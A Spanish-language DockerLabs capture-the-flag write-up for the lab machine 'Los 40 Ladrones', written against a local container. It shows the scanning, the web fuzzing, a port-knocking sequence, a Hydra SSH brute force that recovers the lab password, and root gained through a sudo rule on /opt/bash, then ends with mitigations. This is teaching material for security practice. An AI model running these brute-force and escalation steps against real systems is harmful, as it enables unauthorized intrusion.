

# Los 40 Ladrones — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar port knocking para revelar el servicio SSH, fuerza bruta con Hydra y escalada de privilegios en Linux.

## Attack chain

**Nmap → Web Enumeration → Gobuster → Port Knocking → SSH Discovery → SSH Brute Force (Hydra) → SSH Access (toctoc) → Sudo Misconfiguration → Root**

## 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/los40Ladrones]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-14 13:18 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000088s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 12:EB:70:C3:A7:58 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.29 seconds

```
Como nos indica la descripcion el unico servicio que vemos activo es apache el cual se encuentra por defecto, exceptuando por la seccion de `Configuration Overview` el cual nos da como pista tambien `knock-enabled` haciendo referencia al port knocking



Teniendo en cuenta lo mencionado, realizamos un fuzzing web.


## 2. Fuzzing WEB 

Realizamos un fuzzing web para buscar directorios o archivos ocultos. 

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/los40Ladrones]
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,conf -t 50
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,php,html,bak,conf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 10792]
qdefense.txt         (Status: 200) [Size: 111]
server-status        (Status: 403) [Size: 275]
Progress: 1323348 / 1323348 (100.00%)
===============================================================
Finished
===============================================================
                                                                                                                                                                                        
```
Encontramos el archivo `qdefense.txt` el cual como pista nos brinda lo siguiente 

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/los40Ladrones]
└─$ curl -s http://172.17.0.2/qdefense.txt
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639

```
Realizamos la secuencia mencionada en el archivo para que podamos visualizar el puerto activo.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/los40Ladrones]
└─$ knock 172.17.0.2 7000 8000 9000

```
Verificamos nuevamente con `nmap`.

```                                                                                                                        
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/los40Ladrones]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-14 13:57 -0300
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 dc:ef:4e:ec:c9:3e:3d:68:dd:f5:1f:23:21:a3:98:83 (ECDSA)
|_  256 3e:c1:74:c1:44:af:6f:d0:90:15:4c:95:46:0a:ea:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: E6:28:C4:1A:3F:2E (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.67 seconds

```
Vemos que efectimanete la secuencia era la correcta y ahora nos figura el puerto activo.

Con la pista dada probamos con hydra para obtener la contraseña.


## 3. Hydra

Probamos con el usuario `toctoc` el cual encontramos su contraseña y procederemos a realizar la conexion `SSH` y la escalada de privilegios.

```text
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/los40Ladrones]
└─$ sudo hydra -l toctoc -P /usr/share/wordlists/rockyou.txt -t 4 -f 172.17.0.2 ssh
[sudo] password for mariano: 
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-14 14:18:34
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 76.00 tries/min, 76 tries in 00:01h, 14344323 to do in 3145:42h, 4 active
[STATUS] 67.00 tries/min, 201 tries in 00:03h, 14344198 to do in 3568:13h, 4 active
[STATUS] 66.71 tries/min, 467 tries in 00:07h, 14343932 to do in 3583:26h, 4 active
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found

```

## 4. Escalada de privilegios.

Ingresamos al servicios `SSH` y escalamos privilegios.

```                                                                                                                        
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/los40Ladrones]
└─$ ssh toctoc@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is: SHA256:kFPNDX9sDJ9/mSgtLH9ukfGgFjG219oJc0/gqwWxiso
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
toctoc@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 7.1.5+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
toctoc@cba04e170933:~$ sudo -l
[sudo] password for toctoc: 
Matching Defaults entries for toctoc on cba04e170933:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User toctoc may run the following commands on cba04e170933:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function
toctoc@cba04e170933:~$ sudo /opt/bash 
root@cba04e170933:/home/toctoc# whoami
root
root@cba04e170933:/home/toctoc# id
uid=0(root) gid=0(root) groups=0(root)
root@cba04e170933:/home/toctoc# 


```

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificó un servidor Apache como único servicio accesible. Al revisar la página web y realizar un proceso de enumeración con **Gobuster**, se descubrió el archivo `qdefense.txt`, que contenía una pista sobre una secuencia de puertos: `7000`, `8000` y `9000`.

Esta pista permitió poner en práctica la técnica de **Port Knocking**, un mecanismo que consiste en enviar una secuencia específica de conexiones a determinados puertos para habilitar el acceso a un servicio que inicialmente permanece oculto o bloqueado. En esta máquina, al ejecutar la secuencia indicada con la herramienta `knock`, el puerto 22 quedó accesible y fue posible identificar el servicio SSH mediante un nuevo escaneo con Nmap.

Posteriormente, se utilizó **Hydra** para probar contraseñas contra el servicio SSH y obtener acceso con el usuario `toctoc`. Si bien la pista y la contraseña resultaron relativamente sencillas de encontrar en este laboratorio, el principal aprendizaje está en comprender cómo la enumeración permite descubrir información relevante y cómo una secuencia de conexiones puede cambiar la superficie de ataque de un sistema.

Finalmente, mediante `sudo -l`, se identificó que el usuario podía ejecutar `/opt/bash` como `root` sin necesidad de contraseña. Al ejecutar ese archivo con `sudo`, se obtuvo acceso privilegiado y se completó la máquina.

En conclusión, **Los 40 Ladrones** permite comprender que el Port Knocking puede reducir la exposición directa de determinados servicios, pero no debe considerarse un sustituto de mecanismos sólidos de autenticación y control de acceso. También demuestra la importancia de revisar los permisos de `sudo`, ya que permitir la ejecución de una shell con privilegios de `root` elimina prácticamente cualquier barrera de escalada de privilegios.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Información sobre Port Knocking expuesta en un archivo público** | Facilita descubrir la secuencia necesaria para habilitar el acceso SSH. | Evitar publicar información operativa sensible y revisar los archivos accesibles desde el servidor web. |
| **Port Knocking** | Una secuencia válida permite habilitar el acceso a un servicio inicialmente oculto o bloqueado. | Utilizarlo únicamente como una capa adicional de protección, junto con un firewall correctamente configurado y una autenticación robusta. |
| **Contraseña SSH débil o predecible** | Facilita el acceso mediante ataques de fuerza bruta o diccionarios. | Utilizar contraseñas robustas, autenticación mediante claves SSH y mecanismos de limitación de intentos. |
| **Permisos excesivos de `sudo` sobre `/opt/bash`** | Permite obtener directamente una shell con privilegios de `root`. | Restringir los comandos autorizados mediante `sudo` y aplicar el principio de mínimo privilegio. |

## Recomendaciones generales

- No confiar únicamente en Port Knocking como mecanismo de seguridad: debe complementar, no reemplazar, los controles de acceso.
- Mantener los servicios innecesarios deshabilitados y configurar correctamente las reglas del firewall.
- Evitar contraseñas débiles y priorizar la autenticación mediante claves SSH.
- Revisar periódicamente las reglas de `sudo` y evitar permitir la ejecución de shells como `root`.
- Realizar escaneos antes y después de aplicar cambios de configuración para comprobar cómo varía la superficie de ataque.
